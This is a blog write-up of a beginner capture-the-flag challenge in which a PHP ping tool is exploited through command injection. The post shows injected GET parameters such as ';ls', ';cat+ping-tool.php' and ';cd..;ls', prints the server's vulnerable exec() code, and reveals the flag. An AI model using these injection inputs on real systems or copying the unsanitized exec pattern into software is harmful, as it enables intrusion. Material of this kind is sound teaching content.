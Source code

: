 Title: RyanCTF Input Validation
Date: 2018-7-27 10:01
Modified: 2018-7-27 10:01
Category: ctf
Tags: ctf
Slug: ryanCTF_inputValidation
Authors: F3real
Summary: How to solve RyanCTF Input Validation

Ryan CTF is a nicely organized beginner CTF located at [http://ctf.ryanic.com/](http://ctf.ryanic.com/). Challenges are pretty interesting, with the only thing I disliked being that they are played through a web shell. So let’s start:

**(Ab)use the ping-tool.html page on the web server [http://ctf.ryanic.com:8080](http://ctf.ryanic.com:8080) to find the flag within the Flag.txt file.**

When we open the site, we see just a simple form asking us for IP we want to ping. Parameters are passed in GET request so if we wanted to ping google DNS our URL would look like

```http://ctf.ryanic.com:8080/ping-tool.php?ip=8.8.8.8```

Now one of basic things (as hinted by challenge name) is to test command injection which we can do by adding ;ls and checking the results:
```
ING 8.8.8.8 (8.8.8.8) 56(84) bytes of data. 
64 bytes from 8.8.8.8: icmp_seq=1 ttl=51 time=1.08 ms 
64 bytes from 8.8.8.8: icmp_seq=2 ttl=51 time=0.493 ms 
64 bytes from 8.8.8.8: icmp_seq=3 ttl=51 time=0.399 ms 
64 bytes from 8.8.8.8: icmp_seq=4 ttl=51 time=0.418 ms 
 
--- 8.8.8.8 ping statistics --- 
4 packets transmitted, 4 received, 0% packet loss, time 3042ms 
rtt min/avg/max/mdev = 0.399/0.598/1.085/0.284 ms 
index.php 
logo.png 
ping-tool.html 
ping-tool.php 
secret.html 
test.txt 
x.txt
```

Now for fun, we can also leak the code of this .php script running on the server with

```http://ctf.ryanic.com:8080/ping-tool.php?ip=8.8.8.8;cat+ping-tool.php```

Here it is just important to note that we need to URL encode parameters so for example in case above `space` is replaced by `+` .

And we get:
~~~php
<?
$out = array();
exec("ping -c 4 " . $_GET["ip"], $out);
foreach($out as $line) {
echo "$line
";
}
?> 
~~~

Now for the remaining part, we need to find the flag. We can do this just through a browser but also we can do it through **burp**, to make it easier and it is a good tool to know.

We need to capture one of request we send to server and forward it to the repeater, in this way we can quickly modify parameters of request and URL encode them. For this, we just need to start burp, turn the intercept on and set the browser to use a proxy (in case of burp `localhost` on the port `8080` by default).

First I tried running find for the flag, which failed for some reason so I decided to simply check directories bellow our current one.

![ping ls]({static}/images/2018_7_27_Ping.png){: .img-fluid .centerimage}


Parameters of the request, if URL decoded, are simply `;cd..;ls`. And it seems we were in luck since Flag.txt is just one sub-directory bellow. We simply `cat Flag.txt` and that’s it.

`Flag: pluripresence`